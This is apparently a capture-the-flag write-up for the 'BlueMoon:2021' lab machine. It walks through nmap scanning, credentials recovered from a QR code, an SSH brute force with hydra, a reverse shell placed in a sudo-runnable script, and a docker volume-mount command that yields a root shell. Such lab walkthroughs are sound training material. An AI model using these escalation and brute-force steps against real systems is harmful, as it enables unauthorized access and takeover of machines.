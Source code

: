```yaml
---
layout: default
title : muzec - BlueMoon:2021 Writeup
---
```


![Image](https://imgur.com/RhdDiti.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Sat Apr 17 15:59:01 2021 as: nmap -sC -p- -sV -oA nmap 172.16.139.148
Nmap scan report for 172.16.139.148
Host is up (0.0073s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 2c:e2:63:78:bc:55:fe:f3:cb:09:a9:d8:26:2f:cb:d5 (RSA)
|   256 c4:c8:6b:48:92:25:a5:f7:00:9f:ab:b2:56:d5:ed:dc (ECDSA)
|_  256 a9:5b:39:a1:6e:05:91:0f:75:3c:88:0b:55:7c:a8:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: BlueMoon:2021
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 17 15:59:15 2021 -- 1 IP address (1 host up) scanned in 13.26 seconds
```

FTP no anonymous logins is allow so let burst some directory probably the way in.

![Image](https://imgur.com/2IMpG3h.png)

`/hidden_text` look interesting let check it out hmmm maintanance page clicking on the `Thank you` download a Qr code.

![image](https://imgur.com/rAJYWXW.png)

Cool let use some online tools to read it.

![Image](https://imgur.com/V242Uc4.png)

Awesome credentials for FTP let hit and use it to log into FTP.

![Image](https://imgur.com/gQfK8Sz.png)

We are in so let download all the files in the FTP.

```
Hello robin ...!
    
    I'm Already Told You About Your Password Weekness. I will give a Password list. you May Choose Anyone of The Password.
```

So i hit hydra with the username `robin` and the password list i found in the FTP server.

![Image](https://imgur.com/kvVCqm1.png)

Cool let ssh into the machine with the credentials we just got from brute forcing ssh.

![Image](https://imgur.com/gwKcvtA.png)

And we are in let chek `sudo` first i always check `sudo-l` .

![Image](https://imgur.com/FurVhDG.png)

Cool we can run sudo to get user jerry a little issue the `feedback.sh` `was own by me but can't wrrite to it so i give it chmod 777` permission so i echo a reverse shell payload in the file and start a ncat listerner.

`sudo -u jerry /home/robin/project/feedback.sh` 

![Image](https://imgur.com/IpOLRsm.png)

And boom we have jerry shell time to escalate to root.

![Image](https://imgur.com/P8gvBZf.png)

It can be used to break out from restricted environments by spawning an interactive system shell the resulting is a root shell.

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![Image](https://imgur.com/194DYT6.png)

And we are root Box rooted,

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>



